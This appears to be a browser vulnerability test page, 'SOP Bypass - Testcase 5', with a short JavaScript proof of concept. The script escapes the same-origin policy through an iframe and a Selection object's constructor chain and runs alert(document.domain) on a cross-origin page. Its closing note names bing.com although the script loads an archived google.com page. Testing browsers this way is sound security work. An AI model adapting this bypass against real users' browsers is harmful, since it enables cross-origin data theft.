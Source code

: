 ```yaml
---
layout: default
title: SOP Bypass - Testcase 5
permalink: /sop/new/5
---
```


<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="sop()">
<script>
function sop() {
    frame = document.body.appendChild(document.createElement("iframe"));
    wnd = frame.contentWindow;
    func = wnd.Function;
    wnd.location = "about:blank";
    frame.onload = function() {
        selection = func("return getSelection()")();
        wnd.location = "https://web.archive.org/web/20180831120251/http://google.com";
        frame.onload = function() {
            frame.onload = null;
            selection.baseNode.constructor.constructor.constructor("alert(document.domain)")()
        }
    }
}
</script>

**Note:**
If page displays an alert box displaying bing.com, your browser is vulnerable to SOP bypass.
